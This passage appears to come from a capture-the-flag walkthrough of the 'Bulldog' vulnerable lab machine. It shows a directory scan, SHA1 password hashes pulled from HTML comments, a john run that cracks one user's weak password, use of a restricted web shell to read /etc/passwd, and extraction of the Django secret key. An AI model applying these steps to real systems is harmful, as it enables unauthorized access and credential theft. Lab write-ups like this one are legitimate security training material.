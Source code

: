     -----------------

    GENERATED WORDS: 4612

    ---- Scanning URL: http://10.0.2.4/ ----
    ==> DIRECTORY: http://10.0.2.4/admin/
    ==> DIRECTORY: http://10.0.2.4/dev/
    + http://10.0.2.4/robots.txt (CODE:200|SIZE:1071)
    <SNIP>

The result is the same on the port 8080

The admin page present a django login interface.

![Django login page](/media/2017.11/2.png)

The dev page contain the link to a web-shell and contact information with some hashes in html comments `view-source:http://10.0.2.4/dev/`:


    Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
    Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
    Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
    Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
    Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
    Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
    Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->

We launch john against the hashes:

	root@kalili:~/bulldog# john hashes --format=Raw-SHA1
	Using default input encoding: UTF-8
	Loaded 7 password hashes with no different salts (Raw-SHA1 [SHA1 128/128 AVX 4x])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	bulldog          (nick)
	1g 0:00:03:32  3/3 0.004714g/s 12965Kp/s 12965Kc/s 77831KC/s hmj359t..hmj359l

Nick use a weak password and it can be used to login into the Django admin interface but he has no access.

[/media/2017.11/3.png]

Nevertheless nick has access to the restricted web-shell

[/media/2017.11/4.png]

We can explore a bit, cat `/etc/passwd` but mostly we can access the django secret key in bulldog/settings.py

	cat bulldog/settings.py
	<SNIP>
	# SECURITY WARNING: keep the secret key used in production secret!
	SECRET_KEY = '%9a3ph3iwk$v*_#x4ejg8(t5(qll0fl8q8&u+o_g$yi83d*riq'
	<SNIP>o
